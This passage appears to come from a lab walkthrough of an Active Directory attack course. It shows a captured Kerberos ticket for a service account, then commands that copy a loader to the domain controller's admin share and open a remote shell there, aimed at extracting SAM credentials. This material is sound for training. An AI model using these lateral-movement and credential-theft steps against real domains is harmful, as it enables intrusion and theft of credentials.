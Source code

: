 `whoami`:
```
dcorp\student422
```

`hostname`:
```
dcorp-std422
```

`whoami /groups`:
```
ERROR: Unable to get group membership information.
```
❌

`klist`:
```
Current LogonId is 0:0x3dd20f

Cached Tickets: (1)🎟️

#0>     Client: svcadmin🎭 @ DOLLARCORP.MONEYCORP.LOCAL
        Server: krbtgt/DOLLARCORP.MONEYCORP.LOCAL @ DOLLARCORP.MONEYCORP.LOCAL
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40e10000 -> forwardable renewable initial pre_authent name_canonicalize
        Start Time: 2/14/2025 1:45:16 (local)
        End Time:   2/14/2025 11:45:16 (local)
        Renew Time: 2/21/2025 1:45:16 (local)
        Session Key Type: AES-256-CTS-HMAC-SHA1-96
        Cache Flags: 0x1 -> PRIMARY
        Kdc Called:
```

In the spawned process, run the following commands to copy `Loader.exe` to the DC and **extract credentials from the SAM hive**.

`echo F | xcopy C:\AD\Tools\Loader.exe \\dcorp-dc\C$\Users\Public\Loader.exe /Y`:
```
Does \\dcorp-dc\C$\Users\Public\Loader.exe specify a file name
or directory name on the target
(F = file, D = directory)? F
C:\AD\Tools\Loader.exe
1 File(s) copied
```

`winrs -r:dcorp-dc cmd`:
```
Microsoft Windows [Version 10.0.20348.2762]
(c) Microsoft Corporation. All rights reserved.

C:\Users\svcadmin>
```
🚀

![Victim: dcorp-dc | svcadmin](https://custom-icon-badges.demolab.com/badge/dcorp--dc-svcadmin-64b5f6?logo=windows11&logoColor=white)


[172.16.2.1]: PS C:\Users\Administrator.DCORP-DC\Documents>